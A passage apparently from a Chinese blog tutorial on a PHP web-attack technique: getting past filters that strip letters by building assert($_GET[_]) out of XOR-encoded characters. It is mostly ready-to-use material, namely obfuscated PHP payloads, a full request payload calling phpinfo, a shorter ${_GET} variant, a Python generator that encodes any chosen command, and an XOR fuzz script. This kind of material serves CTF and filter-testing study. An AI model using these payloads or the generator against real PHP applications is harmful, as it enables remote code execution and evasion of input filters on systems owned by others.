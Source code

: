 ```php
$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');
//$_='assert';
$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');
//$__='_GET';
$___=$$__;
//$___='$_GET';
$_($___[_]);
//assert($_GET[_]);
```

Payload：`$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');$___=$$__;$_($___[_]);&_=phpinfo();`

>经本地测试，发现这种方法可以在php5以及php7.0.9版本种使用，因为assert()的问题，并不是异或不能使用
其次，PHP5低版本有些可能因为magic_quotes_gpc开启的关系导致无法利用

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602162530266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

当过滤字符的范围没有那么大，或者只是过滤关键字的时候可以使用如下脚本

```python
# -*- coding: utf-8 -*-
import string

char = string.printable
cmd = 'phpinfo'
tmp1,tmp2 = '',''
for res in cmd:
    for i in char:
        for j in char:
            if(ord(i)^ord(j) == ord(res)):
                tmp1 += i
                tmp2 += j
                break
        else:
            continue
        break
print("('{}'^'{}')".format(tmp1,tmp2))
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602163013317.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602162947813.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
找到一个大师傅的方法
```php
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
//${_GET}{%ff}();&%ff=phpinfo
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602164701956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

fuzz脚本

```python
def r_xor(): 
	for i in range(0,127): 
		for j in range(0,127): 
			result=i^j 
			print(" "+chr(i)+" ASCII:"+str(i)+' <--xor--'+chr(j)+" ASCII:"+str(j)+' == '+chr(result)+" ASCII:"+str(result)) 

if __name__ == "__main__": 
	r_xor()
```
解析：
- 看到代码中的下划线“_”、“__”、“___”是一个变量，因为preg_match()过滤了所有的字母，我们只能用下划线来作变量名